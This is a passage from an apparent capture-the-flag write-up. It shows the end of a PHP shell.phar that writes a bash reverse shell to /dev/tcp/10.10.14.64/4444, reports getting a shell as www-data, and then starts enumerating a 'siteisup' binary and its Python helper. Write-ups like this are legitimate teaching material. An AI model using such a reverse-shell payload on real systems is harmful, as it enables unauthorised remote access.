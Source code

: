 ```shell.phar``` file.
    fwrite($pipes[0], 'bash -i >& /dev/tcp/10.10.14.64/4444 0>&1');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>

```

Executing the shell we get the connection back in our machine.

![Shell as www-data](10.png "Shell as www-data")

## www-data -> developer

Looking for interesting files, we have two files in the ```/home/developer/dev/``` directory.

![/home/developer/dev/](11.png "/home/developer/dev/")

One of the files is an ```elf``` binary while the other is a python file.

```siteisup``` binary.

![siteisup binary](12.png "siteisup binary")

Executing and looking at the strings of the binary, we can conclude that this is calling out the other file ```siteisup_test.py``` file.

![strings siteisup](13.png "strings siteisup")

So what exactly the file ```siteisup_test.py``` does? Well it also provides similar functionality and checks whether the provided site is up or not.

Contents of ```siteisup_test.py```

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
